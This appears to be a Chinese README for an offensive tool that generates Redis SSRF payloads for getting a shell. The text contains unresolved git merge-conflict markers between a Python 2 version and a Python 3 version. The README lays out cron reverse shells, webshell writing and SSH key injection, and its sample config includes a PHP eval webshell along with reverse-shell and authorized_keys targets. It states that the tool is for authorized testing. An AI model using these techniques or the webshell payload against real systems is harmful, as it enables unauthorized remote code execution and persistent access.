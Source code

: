 <<<<<<< HEAD
# ssrf_redis_getshell
通过ssrf漏洞对redis资产进行getshell的常见姿势

一、使用方法

1.需手动在代码中修改对应的ip和端口，以及三种方式所需的配置信息

2.所需环境: python2

example:
![image](https://user-images.githubusercontent.com/50257557/173984487-5a98d409-b68c-4c1f-be86-f0158aaae109.png)
输入想获取哪种类型的payload，curl即一次编码，burp对应的即为两次编码
![image](https://user-images.githubusercontent.com/50257557/173984651-b8ade100-4438-4d5f-af20-423d26ed049b.png)
=======
# Redis SSRF Payload 生成器

一个用于生成Redis SSRF漏洞利用payload的工具，支持多种getshell方式。**本工具仅用于安全研究和防御测试目的。**

## 功能特性

- 三种Redis SSRF利用方式：
  - 定时任务反弹shell
  - 网站绝对路径写webshell  
  - Redis写入SSH公钥
- 交互式配置管理
- 支持配置文件保存和加载
- 自动生成curl和burp格式的payload
- 输入验证和错误处理
- Python 3兼容

## 环境要求

- Python 3.6+
- 标准库模块：`urllib.parse`, `json`, `os`, `ipaddress`

## 安装和使用

### 1. 克隆或下载项目

```bash
git clone <repository-url>
cd ssrf_redis_getshell-main
```

### 2. 运行程序

```bash
python3 ssrf_redis_all.py
```

### 3. 使用交互式菜单

程序启动后会显示主菜单：

```
==================================================
Redis SSRF Payload 生成器
==================================================
1. 定时任务反弹shell (cron)
2. 网站绝对路径写webshell (web)
3. Redis写入SSH公钥 (ssh)
4. 查看当前配置
5. 编辑并保存配置
6. 加载配置文件
7. 退出
==================================================
```

## 功能说明

### 生成Payload (选项1-3)
选择对应的利用方式，程序会自动生成两种格式的payload：
- **curl格式**：一次URL编码，适用于curl命令行测试
- **burp格式**：二次URL编码，适用于Burp Suite等渗透测试工具

### 配置管理 (选项4-6)

#### 查看当前配置 (选项4)
显示当前的所有配置参数，包括：
- Redis连接信息
- 反弹shell配置
- Webshell路径和内容
- SSH公钥配置

#### 编辑并保存配置 (选项5)
交互式修改所有配置参数，修改完成后会自动保存到JSON文件中。

#### 加载配置文件 (选项6)
从已有的JSON配置文件中加载配置参数。

## 配置文件格式

配置文件为JSON格式，包含以下配置节：

```json
{
  "redis": {
    "protocol": "gopher://",
    "ip": "127.0.0.1",
    "port": "6379",
    "password": ""
  },
  "cron": {
    "reverse_ip": "127.0.0.1",
    "reverse_port": "4444",
    "filename": "root",
    "path": "/var/spool/cron"
  },
  "webshell": {
    "shell_content": "<?php eval($_GET[1]);?>",
    "filename": "shell.php",
    "path": "/var/www/html"
  },
  "ssh": {
    "public_key": "ssh-rsa AAAAB3NzaC1yc2E...",
    "filename": "authorized_keys",
    "path": "/root/.ssh/"
  }
}
```

## 注意事项

1. **合法使用**：本工具仅用于授权的安全测试和研究目的
2. **输入验证**：程序会验证IP地址格式和端口号范围
3. **配置备份**：建议为不同测试环境创建单独的配置文件
4. **Python版本**：需要Python 3.6或更高版本

## 更新日志

### v2.0 (重构版)
- 升级到Python 3
- 添加配置文件支持
- 实现交互式配置管理
- 增强错误处理和输入验证
- 优化代码结构和用户体验

### v1.0 (原版)
- 基础payload生成功能
- Python 2支持

## 免责声明

本工具仅供安全研究和授权测试使用。使用者需确保遵守当地法律法规，对使用本工具造成的任何后果承担责任。开发者不对任何非法使用承担责任。
>>>>>>> 267d0eb (代码重构)
